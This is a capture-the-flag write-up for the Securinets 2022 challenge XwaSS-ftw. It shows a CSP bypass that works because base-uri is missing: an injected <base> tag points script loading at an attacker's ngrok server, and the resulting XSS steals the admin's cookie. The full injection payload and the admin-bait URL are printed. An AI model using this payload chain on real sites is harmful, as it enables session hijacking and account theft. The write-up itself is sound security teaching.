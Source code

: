 # Securinets-CTF-Finals-2022  
## XwaSS-ftw Writeup


This challenge was about achieving an XSS by bypassing the CSP

Challenge :

![image](https://user-images.githubusercontent.com/58823465/167916910-78285058-5944-4b8d-8de8-55650fc0cca5.png)


We can find the CSP in the source code 

``` 
<meta http-equiv="Content-Security-Policy" content="script-src 'nonce-uupQ2er9ZEFzu3';connect-src 'self';style-src 'self';font-src 'self';object-src 'none'">
```
First i checked if the "nonce" is a fixed string so we can abuse it but it seems to be dynamic so i ditched that idea quickly and used the CSP validator to get more of an idea about this CSP

![image](https://user-images.githubusercontent.com/58823465/167917258-82fea6ed-7a13-4b8c-838d-e240c89e3966.png)

We can see the the "base-uri missing" meaning we can use `` <base> `` tags and use a technique called Dangling Markup injection.

So to abuse this we can try and redirect to a url just to test if the base tags are working

We can use this payloads 

```
'><base href="https://example.com">
``` 

![image](https://user-images.githubusercontent.com/58823465/167918956-ef963dd8-37d1-4fcd-87af-441eee9ce375.png)

and we can notice in the console this particular error 

![image](https://user-images.githubusercontent.com/58823465/167918067-d5b8dc28-87d5-4709-90e0-dd8c7af14469.png)

This means it's trying to fetch the relative path `` /assets/js/bootstrap.js ``, so all we need to do is spin up our own server and add the same relative path and inject some xss in the file "bootstrap.js"

So this is the setup for the server 

![image](https://user-images.githubusercontent.com/58823465/167920326-329be168-ac77-4f9f-aca2-84f29e83bb7a.png)

**note: Make sure to start your ngrok server in the same directory for the /assets/js/bootstrap.js **

so using the payload :

``` '><base href="http://7923-41-225-41-253.ngrok.io"> ```


![image](https://user-images.githubusercontent.com/58823465/167920555-2f43deff-dbb3-4247-a1ba-d16c38d5f14d.png)


And yes !! we get an XSS !!

Now all we have to do is add a document.cookie attribut and steal it with out custom ngrok server

![image](https://user-images.githubusercontent.com/58823465/167920820-9cd44941-e9f6-4c1d-b9e9-ee23bd8cd03b.png)


and then we send this url to the admin to steal his cookie !

**http://challenge_link/index.php?src='><base href="http://7923-41-225-41-253.ngrok.io">**

![image](https://user-images.githubusercontent.com/58823465/167921246-78c3a39f-7b38-456c-9890-a611819ca7de.png)



And there you go !! we found our flag :D


``` Flag : Securinets{CSP_W1Th_BaSE_Is_GooD_Nah?} ```



